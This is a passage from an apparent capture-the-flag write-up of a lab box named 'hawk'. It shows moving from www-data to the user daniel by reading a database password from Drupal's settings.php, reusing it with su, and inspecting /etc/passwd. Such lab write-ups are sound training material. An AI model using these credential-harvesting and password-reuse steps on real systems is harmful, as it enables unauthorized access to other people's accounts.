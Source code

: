 With shell, get user.txt:

```

$ cd /home/daniel
$ cat user.txt
d5111d4f...

```

## Privesc: www-data -> daniel

Whenever I get on a box via a web exploit, I also look for database config information in the web pages. In this case, Drupal settings are stored in `/var/www/html/sites/default/settings.php`:

```

$databases = array (
  'default' =>
  array (
    'default' =>
    array (
      'database' => 'drupal',
      'username' => 'drupal',
      'password' => 'drupal4hawk',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);

```

That password actually works for daniel:

```

www-data@hawk:/var/www/html$ su daniel
Password:
Python 3.6.5 (default, Apr  1 2018, 05:46:30)
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>>

```

What? Why a python shell? The user’s shell is set to python:

```

www-data@hawk:/var/www/html$ grep daniel /etc/passwd
daniel:x:1002:1005::/home/daniel:/usr/bin/python3

```
